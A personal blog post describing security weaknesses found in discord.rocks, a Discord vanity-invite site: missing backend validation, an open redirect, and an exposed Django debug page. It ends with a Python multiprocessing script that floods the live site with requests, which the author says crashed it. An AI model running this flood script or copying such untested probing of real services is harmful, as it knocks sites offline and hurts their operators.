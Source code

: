 ```yaml
---
title: How I "Hacked" discord.rocks
author: wuemeli
description: >
  I recently identified some security vulnerabilities in discord.rocks, a vanity invite generator for Discord servers. Although I informed the website owner and the issues have been resolved, I'd like to share my process and findings to highlight the importance of robust security measures.
---
```



## Introduction

I had already informed the owner of the website, and he fixed the security leaks. Additionally, what I did was not hacking; I merely identified some security vulnerabilities. Furthermore, this process was quite simple, and anyone could do it. So, let’s begin:

Discord.rocks is a free-to-use vanity invite generator: “Discord.rocks is a vanity invite generator that allows you to create personalized, easy-to-remember invites for your Discord server. Stand out from the crowd and make it easier for your friends, community, or customers to join your server

![Landing Page](/pictures/blog/discord.rocks/LandingPage.webp)

If you don’t have Level 3 Discord Server boosts, discord.rocks is the perfect way to get your own personal Vanity URL. The website is coded in Python and uses Django as the backend.

## Form Input Validation

![Form Validation](/pictures/blog/discord.rocks/Vanity.webp)

This happens when I don’t want to type anything.

![Before Form Change](/pictures/blog/discord.rocks/FrontendBefore.webp)

After

![After Form Change](/pictures/blog/discord.rocks/FrontendAfter.webp)

Now, I thought there should be backend validation, but I was wrong. I now know I could create something like this:

![Something](/pictures/blog/discord.rocks/smth.webp)

## The Exploited URLs

For regular users, it would appear like this:

![Regular URL](/pictures/blog/discord.rocks/Reg.webp)

A Normal URL
You noticed that I attempted to inject some scripts, but it didn’t work. I also somehow managed to bypass the Discord limit, redirecting it to my website instead of a Discord invite link. Additionally, I couldn’t perform SQL injection or something similar because I didn’t know which database they used. (I will discuss this further in this post.) With this, I could override the default 404 error to access some information:

![Django](/pictures/blog/discord.rocks/Django.webp)

This helped me see all the paths and confirmed that it uses Django. It was quite amusing exploiting this website and how easy it was. So, always consider implementing backend validation.

## Overloading the Databases (Site Crash)

You may have noticed these 4000 users. I achieved this with a simple script to overload the website. Every time you visit a vanity URL, it saves the usage count into the database. Somehow, this process was slow, especially in the backend. User visits were getting redirected, and the server needed about 600ms to save the data to the database. With this in mind, I wrote this Python script:

```py
import multiprocessing as mp
import requests

def red(x):
    for i in range(x): 
        print(requests.get("https://discord.rocks/red/wuemeli"))

def blue(x):
    for i in range(x): 
        print(requests.get("https://discord.rocks/red/"))
    
def main(x):
    for i in range(x): 
        print(requests.get("https://discord.rocks/"))

def wuemeli(x):
    for i in range(x): 
        print(requests.get("https://discord.rocks/red/uwu"))

def my_func(x):
    red(1000)
    blue(1000)
    main(1000)
    wuemeli(1000)

def main():
    pool = mp.Pool(mp.cpu_count())
    pool.map(my_func, range(0, 1000))

if __name__ == "__main__":

    main()
```


I ran this script five times, and the site became overloaded, ultimately crashing. Then, I encountered a database error, but unfortunately, I forgot to take a screenshot, and I don’t want to overload the site again.

